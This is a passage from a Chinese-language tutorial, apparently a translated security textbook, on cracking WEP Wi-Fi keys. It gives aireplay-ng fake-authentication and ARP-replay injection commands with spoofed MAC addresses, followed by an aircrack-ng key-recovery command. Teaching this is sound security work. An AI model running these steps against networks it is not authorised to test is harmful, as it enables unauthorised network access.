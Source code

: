```
 aireplay-ng -1 0 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0 

-1 means fake authentication 
0 reassociation timing in seconds 
-e ganon is the wireless network name 
-a 00:14:6C:7E:40:80 is the access point MAC address 
-h 00:0F:B5:88:AC:82 is our card MAC address 
```

或其他针对挑剔接入点的变体：

```
aireplay-ng -1 6000 -o 1 -q 10 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0 

6000 - Reauthenticate every 6000 seconds. The long period also causes keep alive packets to be sent. 
-o 1 - Send only one set of packets at a time. Default is multiple and this confuses some APs. 
-q 10 - Send keep alive packets every 10 seconds. 
```

如果一切顺利，您应该会收到一条消息，说明您已成功关联。如果没有，您将收到一条消息，指示您尚未成功地与无线网络关联，此时您需要重试，但一般来说，如果您按照此处的步骤进行操作，您应该更有可能与目标关联。如果您没有通过欺骗受害者的 MAC 地址成功地与您的无线网络进行关联和认证，那么您将无法进入下一步。

现在让我们进入关键时刻，我们将生成或诱导目标网络生成可用于恢复密钥的通信量。这个过程的工作方式是使用 ARP 请求或广播。我们要做的是发送一个 ARP 请求，就像任何普通的网络客户端一样。然而，当这个广播出去寻找一个客户机时，根据设计，接入点会在我们每次发送一个客户机时将其重新广播到网络上。因此，它产生了大量的通信量，这些通信量又被 WEP 密钥加密和保护。由于我们将监听并捕获文件中的流量，如果一切正常，我们将记录使用密钥的大量流量（如果我们有耐心的话），我们可以对这些流量执行破解操作或恢复操作。

要执行注入，我们需要打开另一个控制台并输入：

```
 aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0 
```

它将开始监听 ARP 请求，当它听到一个请求时，`aireplay-ng`将立即开始注入。

您可以通过检查`airodump-ng`屏幕确认您正在注射。数据包应该迅速增加。`#/s`应该是一个合适的数字。然而，“体面”取决于多种因素。典型的范围是每秒 300 到 400 个数据包。它可以低至 100/秒，也可以高至 500/秒。

现在我们已经捕获到一个`.cap`文件的流量，我们现在将尝试从捕获的数据包中检索密钥。为此，我们采取以下措施：

打开另一个新的控制台会话并输入：

```
 aircrack-ng -b 00:14:6C:7E:40:80 output*.cap 

-b 00:14:6C:7E:40:80 selects the one access point we are interested in.  

*.cap selects all files starting with "output" and ending in ".cap". 
```

您可以在生成数据包时运行此操作。在短时间内，将计算并显示 WEP 密钥。64 位密钥需要大约 250000 个 IVs，128 位密钥需要 1500000 个 IVs。请注意，这些值是粗略的指导原则，其他变量可能会影响实际需要收集的流量和 IVs 的数量。

如果该过程成功完成，您将看到以下内容：

![](img/b9affb85-dba9-4dbe-a58e-b201479de225.jpg)
